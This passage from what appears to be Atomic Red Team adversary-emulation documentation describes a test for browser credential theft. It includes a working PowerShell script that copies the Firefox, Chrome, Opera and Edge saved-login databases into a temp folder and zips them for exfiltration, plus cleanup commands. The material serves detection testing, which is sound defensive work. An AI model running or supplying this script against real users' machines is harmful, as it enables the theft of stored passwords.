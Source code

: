 ```sh
which git && which python3 && which pip
```

##### Get Prereq Commands:

```sh
apt install git; apt install python3-pip -y; pip install pyasn1 psutil Crypto
```

<br/>
<br/>

## Atomic Test #10 - Stage Popular Credential Files for Exfiltration

This test is designed to search a drive for credential files used by the most common web browsers on Windows (Firefox, Chrome, Opera, and Edge), export the found files to a folder, and zip it,
simulating how an adversary might stage sensitive credential files for exfiltration in order to conduct offline password extraction with tools like [firepwd.py](https://github.com/lclevy/firepwd) or [HackBrowserData](https://github.com/moonD4rk/HackBrowserData).

**Supported Platforms:** Windows

**auto_generated_guid:** f543635c-1705-42c3-b180-efd6dc6e7ee7

#### Attack Commands: Run with `powershell`!

```powershell
$exfil_folder = "$env:temp\T1555.003"
if (test-path "$exfil_folder") {} else {new-item -path "$env:temp" -Name "T1555.003" -ItemType "directory" -force}
$FirefoxCredsLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
if (test-path "$FirefoxCredsLocation\key4.db") {copy-item "$FirefoxCredsLocation\key4.db" -destination "$exfil_folder\T1555.003Firefox_key4.db"} else {}
if (test-path "$FirefoxCredsLocation\logins.json") {copy-item "$FirefoxCredsLocation\logins.json" -destination "$exfil_folder\T1555.003Firefox_logins.json"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" -destination "$exfil_folder\T1555.003Chrome_Login Data"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account" -destination "$exfil_folder\T1555.003Chrome_Login Data For Account"} else {}
if (test-path "$env:appdata\Opera Software\Opera Stable\Login Data") {copy-item "$env:appdata\Opera Software\Opera Stable\Login Data" -destination "$exfil_folder\T1555.003Opera_Login Data"} else {}
if (test-path "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data") {copy-item "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data" -destination "$exfil_folder\T1555.003Edge_Login Data"} else {}
compress-archive -path "$exfil_folder" -destinationpath "$exfil_folder.zip" -force
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "$env:temp\T1555.003.zip" -force -erroraction silentlycontinue
Remove-Item -Path "$env:temp\T1555.003\" -force -recurse -erroraction silentlycontinue
```
